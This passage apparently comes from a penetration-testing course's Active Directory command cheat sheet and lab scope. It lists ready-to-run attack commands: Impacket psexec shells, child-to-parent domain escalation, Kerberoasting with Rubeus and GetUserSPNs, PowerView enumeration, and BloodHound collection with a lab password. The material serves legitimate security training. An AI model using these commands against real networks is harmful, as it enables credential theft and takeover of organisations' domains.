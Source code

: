 |`export KRB5CCNAME=hacker.ccache`|Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host.|
|`psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`|Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host.|
|`raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`|Impacket tool that automatically performs an attack that escalates from child to parent domain.|

### Trust Relationships - Cross-Forest

|Command|Description|
|---|---|
|`Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName`|PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host.|
|`Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof`|PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host.|
|`.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`|Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host.|
|`Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`|PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host.|
|`Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator`|PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host.|
|`GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`|Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host.|
|`bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`|Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host.|
|`zip -r ilfreight_bh.zip *.json`|Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI.|

## Scenario 
## Assessment Scope

The following `IPs`, `hosts`, and `domains` defined below make up the scope of the assessment.
### In Scope For Assessment

| **Range/Domain**                | **Description**                                                                           |
| ------------------------------- | ----------------------------------------------------------------------------------------- |
| `INLANEFREIGHT.LOCAL`           | Customer domain to include AD and web services.                                           |
| `LOGISTICS.INLANEFREIGHT.LOCAL` | Customer subdomain                                                                        |
| `FREIGHTLOGISTICS.LOCAL`        | Subsidiary company owned by Inlanefreight. External forest trust with INLANEFREIGHT.LOCAL |
| `172.16.5.0/23`                 | In-scope internal subnet.                                                                 |
### Out Of Scope

- `Any other subdomains of INLANEFREIGHT.LOCAL`
- `Any subdomains of FREIGHTLOGISTICS.LOCAL`
- `Any phishing or social engineering attacks`
- `Any other IPS/domains/subdomains not explicitly mentioned`
- `Any types of attacks against the real-world inlanefreight.com website outside of passive enumeration shown in this module`

### Setup

